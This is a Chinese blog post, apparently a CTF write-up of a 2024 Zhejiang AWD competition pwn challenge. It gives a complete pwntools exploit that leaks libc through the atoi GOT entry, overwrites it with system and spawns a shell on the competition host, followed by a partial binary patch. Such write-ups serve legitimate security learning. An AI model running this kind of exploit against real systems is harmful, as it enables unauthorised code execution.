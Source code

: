 ```yaml
---
title: 2024浙江通信行业职业技能竞赛 - awd
date: 2024/08/06 23:31:00
updated: 2024/08/08 00:27:00
tags:
    - awd
thumbnail: /assets/industrial2024/banner.jpg
excerpt: （信息安全测试员竞赛）下午的awd拿分拿到爽，最后团体第三
---
```


本次awd共2道web一道pwn

队友：Doddy & mysid

从上午的个人赛发现几乎都没什么人会pwn，疯狂拿分夺得第三！

## pwn赛题

{% note info fa-paperclip %}
题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到
{% endnote %}

### 文件属性

|属性  |值    |
|------|------|
|Arch  |x86   |
|RELRO |No    |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.16|

### 程序粗解

C++菜单题，只用到了`cout`和`endl`，使用`atoi`来把输入的字符串转换为int

### 漏洞分析

1. `main`函数中输入菜单项时，在栈上存在可以覆盖的指针，随后可以对指针写入任意内容

![bug1](/assets/industrial2024/bug1.png)

{% note purple fa-exclamation %}
`"%4094s"`不允许修改，否则过不了check
{% endnote %}

![add](/assets/industrial2024/add.png)

2. `edit`函数中输入的索引可以基于`heap`做任意写，未经检查

![bug2](/assets/industrial2024/bug2.png)

### 个人题解

可以先利用任意地址写把`GOT[atoi]`写到`heap`上，这样`show`就能leak libc；
然后再利用`edit`就可以把`system`的地址写上去，最后输入 *'/bin/sh'* 就可以拿shell

> 本来想再次利用scanf原语的，但是输入的是`system`的数字，实际写的时候却变成了-1，
> 知道原因的话可以评论

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './pwn3'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/usr/lib32/libc.so.6')
    else:
        sh = remote('10.103.2.3', 9999)
        libc = ELF('./libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'shop===', b'1'.ljust(0x30, b'\0') + p32(elf.symbols['heap']))
    sh.sendlineafter(b'Size', str(elf.got['atoi']).encode())
    sh.sendlineafter(b'shop===', b'3')
    sh.sendlineafter(b'Index', b'0')
    sh.recvuntil(b'content:')
    
    libcBase = u32(sh.recv(4)) - libc.symbols['atoi']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase
    info(f'system@{libc.symbols["system"]:#x}')

    sh.sendlineafter(b'shop===', b'4'.ljust(0x30, b'\0') + p32(elf.got['atoi']))
    # sh.sendlineafter(b'Size', str(libc.symbols['system']).encode())
    sh.sendlineafter(b'Index', b'-7')
    sh.sendlineafter(b'content:', p32(libc.symbols['system']))
    sh.sendlineafter(b'shop===', b'/bin/sh')

    sh.clean()
    sh.interactive()
```

### 参考修复方案

先上个通用沙箱，然后patch以下问题

```diff
--- orig.S
+++ patched.S
@@ -8049b69,8049b7c +8049b69,8049b7c @@
 ; main
-8d 85 f4 ef ff ff      lea eax, [ebp - 0x100c]
-83 c0 30               add eax, 0x30
-8b 00                  mov eax, DWORD PTR [eax]
+8d 83 60 00 00 00      lea eax, [ebx + 0x60]   ; &data_start
+90                     nop
+90                     nop
+90                     nop
+90                     nop
 83 ec 0c               sub esp, 0xc
 50                     push eax
 e8 2a fa ff ff         call add
@@ -8049a95,8049ab3 +8049a95,8049ab3 @@
 ; edit
 8b 45 f0               mov eax, DWORD PTR [ebp - 0x10]
 8d 14 85 00 00 00 00   lea edx, [eax * 4]
-8d 83 70 00 00 00      lea eax, [ebx + 0x70]   ; heap
-01 d0                  add eax, edx            ; &heap[index]
+8d 83 68 00 00 00      eax, [ebx + 0x68]       ; &DW.ref.__gxx_personality_v0
+90                     nop
+90                     nop
 83 ec 04               sub esp, 0x4
 6a 08                  push 0x8
 50                     push eax
 6a 00                  push 0x0
 e8 0c f8 ff ff         call read
```

第一处修改，把地址修改为bss上的地址个人认为比较好，但是第二处修改由于本质上没有做检查，
忽略了`index`，实际上有所疏漏，只是能过check，不能算一个好的方案

{% folding pink::比赛经历分享 %}
7月31号到达酒店，第二天作为凌武科技实习生参加比赛。早上是个人赛，理论题+CTF，
下午是团队赛AWD，8月3号还有一天的渗透赛，我没报名，提前溜了

系统用的是跟上海赛一模一样的系统

![live](/assets/industrial2024/live.jpg)

中饭主办方提供了堂食，还不错

![lunch](/assets/industrial2024/lunch.jpg)

下午打awd的时候，由于场上没多少人会pwn（由上午的个人赛中，
pwn的简单题除了我只有1人解出可见），当我拿出exp时，那一轮直接拿了900+的分，
不过后面强队修洞，弱队关服务， 最后一轮只拿了300+分。
最后也是顺利拿下了第三名，晚上出去搓了一顿

![dinner](/assets/industrial2024/dinner.jpg)

比赛还发了参赛证，长下面这样，顺便还贴了前几名的成绩

![score](/assets/industrial2024/score.jpg)
{% endfolding %}
